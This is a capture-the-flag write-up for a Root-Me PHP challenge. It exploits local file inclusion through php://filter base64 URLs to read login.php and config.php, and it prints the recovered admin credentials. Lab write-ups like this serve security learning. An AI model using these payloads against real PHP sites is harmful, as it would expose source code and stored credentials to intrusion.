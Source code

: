 # PHP - Filters (lfi,php://filter/convert.base64-encode/resource)



The PHP Filter Extension

PHP filters are used to validate and sanitize external input. The PHP filter extension has many of the functions needed for checking user input, and is designed to make data validation easier and quicker.

The filter\_list() function can be used to list what the PHP filter extension offers:

***

click the home button, observe the url:

http://challenge01.root-me.org/web-serveur/ch12/?inc=accueil.php

You see ?inc ?page ?include ?file etc

you should expect path inclusion:

But seems like there is some protection

So bypass:

http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=login.php

To take login.php source code (One cannot see php code by ctrl+u)

\->

I did decode the result

```
<?php
include("config.php");

if ( isset($_POST["username"]) && isset($_POST["password"]) ){
    if ($_POST["username"]==$username && $_POST["password"]==$password){
      print("<h2>Welcome back !</h2>");
      print("To validate the challenge use this password<br/><br/>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");
    }
} else {
?>

<form action="" method="post">
  Login&nbsp;<br/>
  <input type="text" name="username" /><br/><br/>
  Password&nbsp;<br/>
  <input type="password" name="password" /><br/><br/>
  <br/><br/>
  <input type="submit" value="connect" /><br/><br/>
</form>

<?php } ?>
```

\->

now it's time for config.php

http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php

And decode it

\->

```
<?php
$username="admin";
$password="DAPt9D2mky0APAF";
```
